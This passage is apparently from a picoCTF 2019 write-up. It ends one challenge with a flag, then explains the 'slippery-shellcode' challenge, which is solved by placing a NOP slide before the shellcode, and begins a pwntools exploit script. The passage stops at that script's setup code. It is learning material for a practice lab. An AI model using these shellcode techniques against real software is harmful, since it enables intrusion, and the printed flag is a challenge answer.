 ```python
sh.interactive()
```

flag: `picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_1a8eb93a}`

# slippery-shellcode

## Problem

This program is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0 on the shell server. Source.

[Binary](/blog/picoctf-2019-writeup/binary-exploitation/slippery-shellcode/vuln)

[Source](/blog/picoctf-2019-writeup/binary-exploitation/slippery-shellcode/vuln.c)

## Solution


This is similar to [handy-shellcode](#handy-shellcode) but a random offset is added to the address that it is calling:

```c
int offset = (rand() % 256) + 1;

((void (*)())(buf+offset))();
```

To bypass this, we can add a [nop slide](https://en.wikipedia.org/wiki/NOP_slide) in front of our shellcode payload which is basically a ton of `nop` instructions. This allows the shellcode to execute as long as the calling address lands on one of the `nop` instructions.

Also, check out the [gps](/blog/posts/picoctf-2018-writeup/binary-exploitation/#gps) challenge from last year which is about the same technique.

Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process(BINARY, stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

```